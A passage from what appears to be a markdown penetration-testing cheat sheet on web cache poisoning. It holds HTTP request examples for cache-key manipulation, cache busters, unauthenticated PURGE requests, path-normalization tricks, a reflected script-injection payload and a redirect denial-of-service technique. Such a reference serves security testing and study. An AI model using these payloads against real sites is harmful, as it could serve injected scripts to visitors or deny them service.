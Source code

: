 			Therefore, in cases like Microsoft Azure, which normalizes the path and treats the hash as a delimiter, it's possible to use this to modify the cache key of the stored resource:
			```
			GET /<Poisoned_Path><Front-End_Delimiter><Path_Traversal><Backend_Path>
			```
			This technique could be applied to any delimiter used by the cache. The only requirement is that the key is normalized and the path is forwarded with the suffix after the delimiter.
- **Query Exploitation**:
	-  **Check if the query is excluded from the cache key**:
		- Put cache busters in any headers that can be safely edited without significant side-effects, and might be included in the cache key.
			```
			GET /?q=canary&cachebust=nwf4ws HTTP/1.1  
			Host: example.com  
			Accept-Encoding: gzip, deflate, nwf4ws  
			Accept: */*, text/nwf4ws  
			Cookie: nwf4ws=1  
			Origin: https://nwf4ws.example.com
			```
		- Sites running **Cloudflare** include the `Origin header` in the cache key by default.
		- Enable cache busters for all **Burp Suite** traffic by selecting `'Add static cachebuster'` and `'Include cachebusters in headers'` via Param miner.
		- Delete entries from the target's cache, without authentication, by using the HTTP methods `PURGE` and `FASTLYPURGE` to increase attack complexity.
		- **Take advantage of path normalization**:
			Here's four different approaches to hitting the path '/' on different systems:
			```
			Apache: //  
			Nginx: /%2F  
			PHP: /index.php/xyz  
			.NET: /(A(xyz))/
			```
	-  **When the query string is excluded from the cache key**:
		- **==Basic injection==**: Check if the unkeyed query is vulnerable to basic injection:
			```
			GET //?"><script>alert(1)</script> HTTP/1.1  
			Host: redacted-newspaper.net  
		  
			HTTP/1.1 200 OK  
			<meta property="og:url" content="//redacted-newspaper.net//?x"><script>alert(1)</script>"/>
			```
		- **==Redirect DoS==**: Find a cacheable redirect that reflect the unkeyed query string:
			```
			GET /login?x=very-long-string... HTTP/1.1  
			Host: www.cloudflare.com  
			Origin: https://dontpoisoneveryone/
			```
			
			Then when someone else tries to visit the login page, they'll naturally get a redirect with a long query string:
			```
			GET /login HTTP/1.1  
			Host: www.cloudflare.com  
			Origin: https://dontpoisoneveryone/  
  